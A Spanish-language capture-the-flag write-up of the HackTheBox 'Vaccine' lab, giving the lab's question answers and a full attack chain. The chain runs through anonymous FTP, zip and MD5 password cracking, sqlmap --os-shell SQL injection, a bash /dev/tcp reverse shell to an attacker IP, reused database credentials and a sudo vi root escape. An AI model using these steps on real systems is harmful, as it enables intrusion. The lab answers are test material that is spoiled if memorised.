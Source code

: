 1)Además de SSH y HTTP, ¿qué otro servicio está alojado en esta caja?
	ftp

2)Este servicio puede configurarse para permitir el inicio de sesión con cualquier contraseña para un nombre de usuario específico. ¿Cuál es ese nombre de usuario?
	anonymous

3)¿Cuál es el nombre del archivo descargado a través de este servicio?
	backup.zip

4)¿Qué script viene con el conjunto de herramientas John The Ripper y genera un hash a partir de un archivo zip protegido por contraseña en un formato que permite intentos de crackeo?
	zip2john

5)¿Cuál es la contraseña del usuario administrador del sitio web?
	qwerty789

6)¿Qué opción se puede pasar a sqlmap para intentar obtener la ejecución de comandos a través de la inyección sql?
	--os-shell

7)¿Qué programa puede ejecutar el usuario postgres como root usando sudo?
	vi

-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.163.23
nmap -p- --open --min-rate 5000 -vvv -sS -n -Pn 10.129.163.23 -oG allPorts
extractPorts allPorts
nmap -sCV -p21,22,80 10.129.163.23 -oN target
```

![[Vaccine4.png]]

![[Vaccine1.png]]

![[Vaccine2.png]]

![[Vaccine3.png]]
*TTL:* Linux
*Puertos:*
`21`FTP | Vulnerabilidad con usuario anonymous
`22`SSH
`80`Apache/HTTP

--------
# [[Whatweb-wappalyzer]]

![[Vaccine5.png]]
No da ninguna informacion relevante

----------------
# Pagina web

![[Vaccine11.png]]

----
# Ingreso a [[ftp]] con usuario anonymous

`ftp 10.129.163.23 -p 21`
Entramos al servicio de ftp y descargamos el unico archivo con `get` que se llama backup.zip
![[Vaccine6.png]]

-------
# Sacamos el hash del archivo zip con [[zip2john]] y crackeamos contraseña con [[john]]

Intentamos descomprimir el archivo [[Herramientas-Comandos/unzip]] `unzip backup.zip`
![[Vaccine7.png]]
Tiene contraseña asi que no lo podemos descomprimir. Usamos [[zip2john]] para sacarle el hash al archivo y luego con [[john]] crackeamos la contraseña

```shell
zip2john backup.zip > hash
john -w=/usr/share/wordlists/rockyou.txt hash
```

![[Vaccine8.png]]
 Nos da que la contraseña del backup.zip es ``741852963``
 
Ahora descomprimimos y buscamos en los archivos que nos da si tiene algun tipo de contraseña para logearnos al panel de la web
Con [[Herramientas-Comandos/unzip]] ``unzip backup.zip`` descomprimimos y con [[cat]][[grep]] `cat index.php | grep -i password` buscamos en los archivos si tenia contraseñas
![[Vaccine9.png]]
Nos dice que el usuario es admin y la contraseña esta en md5 2cb42f8734ea607eefed3b70af13bbd3

#### Crackeamos la contraseña que esta en md5 con [[john]]
``john -w=/usr/share/wordlists/rockyou.txt --format=raw-md5 md5 ``            | IMPORTANTE USAR el parametro de --format por que si no no crackea la contraseña
![[Vaccine10.png]]
Contraseña: ``qwerty789``
Ponemos los datos de logeo y ya estamos adentro

-------
# SQLI con [[sqlmap NO USAR]] y mandamos una [[Reverse shell]]

Al poner una ' en la parte de search nos aparece este error

![[Vaccine12.png]]
Por esto que dice `ilike` sabemos que es [[postgresql]] ya que es un error caracteristico de esta base de datos
Pero si probamos con otra inyeccion por ejemplo ``' or 1=1-- -``  ``o ' or 1=2-- -`` no nos aparece nada
##### Esto es lo que pudimos sacar manualmente, a partir de aca usamos sqlmap que la verdad no lo queria usar, pero no encontre como mandar una revershell a traves de una sqli para hacer manual el proceso, asi que seguimos los pasos del writeup


```
ACLARACION IMPORTANTE: En la parte de cookie, poner el que tenga cada uno, desde la pagina logeado como administrador apretar CTRL + SHIFT + I y ver las cookies
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3        / Primero usar este comando que va a hacer el analisis
sqlmap -u 'http://10.129.163.241/dashboard.php?search=any+query' --cookie="PHPSESSID=rmqiliocl577tgkamdu19smmbe" -v 3 --os-shell           /Agregando el parametro de os shell, nos va a dejar ejecutar comandos
bash -c 'bash -i >& /dev/tcp/10.10.16.17/443 0>&1'                 / Este es el comando que vamos a poner para usar la revershell
```
Recordar estar en escucha con [[nc -nlvp 443]] para la [[Reverse shell]]
El cookie seria el value de PHPSESSID


![[Vaccine14.png]]

![[Vaccine13.png]]

-------
# Conseguimos credenciales para conectarnos por [[ssh]]

##### Algo a tener en cuenta es que es muy inestable la maquina, todo el tiempo se me iba la conexion y tenia que volver a mandar la [[Reverse shell]], por que no hice [[Tratamiento de la TTY]] ya que cada 30-60 segundos se me iba la conexion

Desde la carpeta /var/www/html vamos a usar el comando `grep -riE "password|.*pasword|password.*"` para buscar posibles contraseñas

![[Vaccine16.png]]
*Resultado*
dashboard.php:	 $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
Probamos las contraseñas que usa para la base de datos postre en ssh y pudimos entrar, asi que sabemos que repite las credenciales que usa

--------
# Nos conectamos por [[ssh]]

``ssh postgres@10.129.163.241`` y ponemos de contraseña `P@s5w0rd!`
![[Vaccine17.png]]

-----
# [[Tratamiento de la TTY]]

-----

# Escalada de privilegios con [[Abuso de Sudo]]

```shell
sudo -l
```

![[Vaccine18.png]]
Vemos que todos podemos ejecutar el binario /bin/vi /etc/postgresql/11/main/pg_hba.conf

Vemos que vulnerabilidad hay en la pagina de [GTFOBINS](https://gtfobins.github.io/gtfobins/vi/#sudo)

![[Vaccine22.png]]

Asi que abrimos con ``sudo /bin/vi /etc/postgresql/11/main/pg_hba.conf`` el binario para abrirlo como root. Para posteriormente salir del vi ejecutando una bash

![[Vaccine19.png]]

Desde el vi apretamos `:` en el teclado y vamos a poner estos dos comandos
```
:set shell=/bin/sh
:shell
```
![[Vaccine20.png]]

Y listo ya tenemos la bash como root, ahora solo queda ver las flags


![[Vaccine21.png]]


-------
# Creditos
Writeup Oficial HackTheBox
Writeup de [wetofu](https://wetofu.github.io/ctf/writeup/htb/htb-vaccine/)
